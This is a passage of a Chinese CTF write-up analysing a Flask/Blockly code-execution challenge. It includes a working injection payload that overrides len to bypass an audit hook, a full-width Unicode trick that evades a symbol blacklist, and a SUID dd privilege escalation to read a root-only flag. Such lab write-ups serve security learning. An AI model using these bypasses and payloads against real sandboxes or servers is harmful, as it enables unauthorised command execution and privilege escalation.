"name": "B"
}
],
"output": "Number",
"colour": 230,
"tooltip": "Returns the minimum of two numbers",
"helpUrl": ""
}]);
// Initialize Blockly
var workspace = Blockly.inject('blocklyDiv', {
toolbox: document.getElementById('toolbox'),
});
// Handle the button click event
$('#saveButton').click(function() {
// Convert the Blockly workspace to JSON
var json = Blockly.serialization.workspaces.save(workspace);
// Send the JSON to the Flask backend
$.ajax({
type: 'POST',
url: '/blockly_json',
data: JSON.stringify(json),
contentType: 'application/json',
success: function(response) {
alert('JSON sent to backend and received response: ' + response);
},
error: function(error) {
alert('Error sending JSON to backend.');
}
});
});
</script>
</body>
</html>源码 + 自写注释，注释逻辑：从程序入口点开始看，跳转到其他自定义函数就往自定义函数写，最终写到程序执行结束
from flask import Flask, request, jsonify
import re
import unidecode
import string
import ast
import sys
import os
import subprocess
import importlib.util
import json
app = Flask(__name__)
app.config['JSON_AS_ASCII'] = False
blacklist_pattern = r"[!\"#$%&'()*+,-./:;<=>?@[\\\]^_`{|}~]"
def module_exists(module_name):
spec = importlib.util.find_spec(module_name)
if spec is None:
return False
if module_name in sys.builtin_module_names:
return True
if spec.origin:
std_lib_path = os.path.dirname(os.__file__)
if spec.origin.startswith(std_lib_path) and not spec.origin.startswith(os.getcwd()):
return True
return False
def verify_secure(m):
for node in ast.walk(m): # 遍历抽象语法树（AST）中的所有节点
match type(node): # 返回每个节点的类型, 并用match 匹配
case ast.Import: # 如果匹配到是 ast.Import 节点类型, 则返回 false
print("ERROR: Banned module ")
return False
case ast.ImportFrom: # 如果匹配到是 ast.ImportFrom 节点类型, 则返回 false
print(f"ERROR: Banned module {node.module}")
return False
return True # 如果都没匹配到, 则返回 true
def check_for_blacklisted_symbols(input_text): # 搭配 block_to_python 自定义函数取处理 json 数据
if re.search(blacklist_pattern, input_text): # 将字符与黑名单字符进行匹配，成功则返回true
return True
else:
return False
def block_to_python(block): # 该自定义函数的功能总体为处理请求体取出的 json 数据
block_type = block['type'] # 取出 'type' 的值
code = ''
if block_type == 'print':
text_block = block['inputs']['TEXT']['block'] # 如果取出的 'type' 的值为 'print', 则继续取内部的 ['inputs']['TEXT']['block']的键值
text = block_to_python(text_block) # 将取出的键值(还是 json 数据)继续给当前自定义函数, 直到得到最终的匹配值返回
code = f"print({text})" # 然后将最后匹配好的字符取出给 code
elif block_type == 'math_number':
# 如果block_type是 'math_number', 继续
if str(block['fields']['NUM']).isdigit():
code = int(block['fields']['NUM']) # 如果['fields']['NUM']取出的字符转为字符串后是纯字符串型，则转为int类型并赋值给code
else:
code = ''
elif block_type == 'text':
if check_for_blacklisted_symbols(block['fields']['TEXT']): #如果block_type是 'text'，则在调用check_for_blacklisted_symbols，继续跟进
code = '' # 返回true, 则code为空
else:
code = "'" + unidecode.unidecode(block['fields']['TEXT']) + "'" # 返回flase，则将字符进行unidecode解码(用于处理特殊字符，这里存在特殊字符全角转换绕过)并拼接给code
elif block_type == 'max':
a_block = block['inputs']['A']['block']
b_block = block['inputs']['B']['block']
a = block_to_python(a_block) #如果类型是max，则取出 ['inputs']['A'/'B']['block']的值丢给当前自定义函数继续执行, 直到得到最终的匹配值返回
b = block_to_python(b_block)
code = f"max({a}, {b})" # 然后将最后匹配好的字符取出给 code
elif block_type == 'min':
a_block = block['inputs']['A']['block']
b_block = block['inputs']['B']['block']
a = block_to_python(a_block) # #如果类型是max，则取出 ['inputs']['A'/'B']['block']的值丢给当前自定义函数继续执行, 直到得到最终的匹配值返回
b = block_to_python(b_block)
code = f"min({a}, {b})" # 然后将最后匹配好的字符取出给 code
if 'next' in block:
block = block['next']['block']
code +="\n" + block_to_python(block)+ "\n"
else:
return code
return code # 最终将参数code返回
def json_to_python(blockly_data):
block = blockly_data['blocks']['blocks'][0] # 取出 json 数据的 ['blocks']['blocks'][0], 就是走过两个 blocks 元素后取出内部的键值(一个内嵌的json数据)
python_code = ""
python_code += block_to_python(block) + "\n" # 将取出的数据丢给自定义函数 block_to_python, 继续跟进到block_to_python内部
return python_code
def do(source_code):
hook_code = '''
def my_audit_hook(event_name, arg):
blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
if len(event_name) > 4:
raise RuntimeError("Too Long!")
for bad in blacklist:
if bad in event_name:
raise RuntimeError("No!")
__import__('sys').addaudithook(my_audit_hook)
'''
print(source_code)
code = hook_code + source_code
tree = compile(source_code, "run.py", 'exec', flags=ast.PyCF_ONLY_AST) # flags=ast.PyCF_ONLY_AST, 这指定了将字符串编译为抽象语法树, 而不是编译成可执行的字节码
try:
if verify_secure(tree): # 继续跟进到 verify_secure() 自定义函数, 返回 true 则往下执行
with open("run.py", 'w') as f:
f.write(code) # 将 code(hook_code 和 传入的值拼接的字符串) 写入 run.py 文件中
result = subprocess.run(['python', 'run.py'], stdout=subprocess.PIPE, timeout=5).stdout.decode("utf-8") # 用 python 运行 run.py 并捕获执行结果传入给 result
os.remove('run.py')
return result # 返回执行结果
else: # 返回 false 则返回报错字符串
return "Execution aborted due to security concerns."
except:
os.remove('run.py')
return "Timeout!"
@app.route('/')
def index():
return app.send_static_file('index.html') # 访问网站根目录，返回 index.html 静态文件给客户端
@app.route('/blockly_json', methods=['POST']) # 当请求 /blockly_json 且请求方式为 POST 时执行下面代码
def blockly_json():
blockly_data = request.get_data() # 返回 data 请求体, 这里是 json 数据
print(type(blockly_data))
blockly_data = json.loads(blockly_data.decode('utf-8')) # 将 JSON 格式的字符串解析为 Python 对象, 这样才能对字符串进行python操作
print(blockly_data)
try:
python_code = json_to_python(blockly_data) # 调用 json_to_python 自定义函数，这里跟进到 json_to_python 自定义函数中去
return do(python_code) # 跟进到 do 自定义函数
except Exception as e:
return jsonify({"error": "Error generating Python code", "details": str(e)}) # 将报错及字典内容转换为 json 响应格式, 并将内容返回给客户端
if __name__ == '__main__':
app.run(host = '0.0.0.0')程序会先将输入的数据进行处理，并与 hook_code 进行拼接，然后将拼接后的内容写入 run.py 并执行，返回执行结果
hook_code，关键代码块如下，当输入 xxx 时，程序会将输入的字符拼接在下面并执行代码
def my_audit_hook(event_name, arg):
blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
if len(event_name) > 4:
raise RuntimeError("Too Long!")
for bad in blacklist:
if bad in event_name:
raise RuntimeError("No!")
__import__('sys').addaudithook(my_audit_hook)
xxx解题思路，写入 __import__(os).system(whoami) ，命令注入，但会被 if len(event_name) > 4: raise RuntimeError("Too Long!") 拦截
绕过思路：
locals() 包含常见的函数，使用 update() 覆盖 len() 函数，当用 len() 函数时去执行匿名函数 lambda x:4，让其只返回 4
locals().update({"len":lambda x:4});__import__("os").system("whoami")程序设置了黑名单，将 $! 等有特殊作用的字符全部过滤了，但是下面的代码存在编码转换绕过
code = "'" + unidecode.unidecode(block['fields']['TEXT']) + "'"
# 将字符进行unidecode解码(用于处理特殊字符，这里存在特殊字符全角转换绕过)并拼接给code半角全角编码转换 py 脚本
def to_fullwidth(text):
return ''.join([chr(ord(char) + 0xFEE0) if '!' <= char <= '~' else char for char in text])
def to_halfwidth(text):
return ''.join([chr(ord(char) - 0xFEE0) if '！' <= char <= '～' else char for char in text])
# 示例用法
text = "!!!"
print("全角:", to_fullwidth(text)) # 转换为全角
print("半角:", to_halfwidth(to_fullwidth(text))) # 转换为半角假如输入一个中文，会转为 

输入全角的 !!!，可以看到对方会解析成正常的 !!!

通过网站根目录 JS 服务发送的请求体中，是 ['blocks'][blocks]['type']=='print' ，因此最终 code 代码会被 f"print({text})" 包裹
if block_type == 'print':
text_block = block['inputs']['TEXT']['block']
text = block_to_python(text_block)
code = f"print({text})"最终命令注入时闭合： ');xxxx#
最终 Payload
');locals().update({"len":lambda x:4});__import__("os").system("whoami")#半角转全角
＇）；ｌｏｃａｌｓ（）．ｕｐｄａｔｅ（｛＂ｌｅｎ＂：ｌａｍｂｄａ ｘ：４｝）；＿＿ｉｍｐｏｒｔ＿＿（＂ｏｓ＂）．ｓｙｓｔｅｍ（＂ｗｈｏａｍｉ＂）＃

flag 文件权限级为 root ，当前权限为 ctf

dd 具有SUID位，有 root 权限，直接利用 dd if=$FILES 读取文件
